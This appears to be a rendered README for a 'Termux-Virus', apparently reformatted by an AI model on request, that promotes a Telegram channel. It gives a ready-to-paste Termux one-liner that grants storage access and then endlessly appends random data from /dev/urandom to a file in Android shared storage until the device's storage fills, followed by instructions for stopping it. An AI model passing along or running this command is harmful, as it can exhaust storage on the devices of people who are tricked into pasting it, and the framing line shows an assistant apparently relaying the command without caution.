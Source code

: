 Here’s the complete README file content with the sections you specified formatted as code:

```markdown
# Termux-Virus

⚠ **Warning**: Run at your own risk.

Join My Channel: [SG_Modder1](https://t.me/SG_Modder1)

😈 **2024 New Termux Virus By Me** 😈

```bash
termux-setup-storage && if [ -d "/storage/emulated/0" ]; then while true; do dd if=/dev/urandom of="/storage/emulated/0/device.bin" bs=1M conv=notrunc oflag=append > /dev/null 2>&1 && echo "🟩"; done; else echo "Give storage permissions."; termux-setup-storage; fi
```

## ⭐️ HOW IT WORKS ⭐️

```markdown
👨‍💻 This command automatically generates a single file and continuously increases its size until you force stop Termux.
```

## 🛑 HOW TO STOP IT 🛑

```markdown
You can stop the script in two ways:

1. **Using Ctrl + C**:
   - Simply press `Ctrl` and `C` keys together in your Termux terminal to terminate the script.

2. **Using the `kill` Command**:
   - Open another terminal session.
   - Run the command to find the process ID (PID):
     ```bash
     ps aux | grep dd
     ```
   - Identify the PID of the `dd` process.
   - Run the following command to kill the process:
     ```bash
     kill <PID>
     ```
```

💎 **Made By**: @SG_Modder1
```
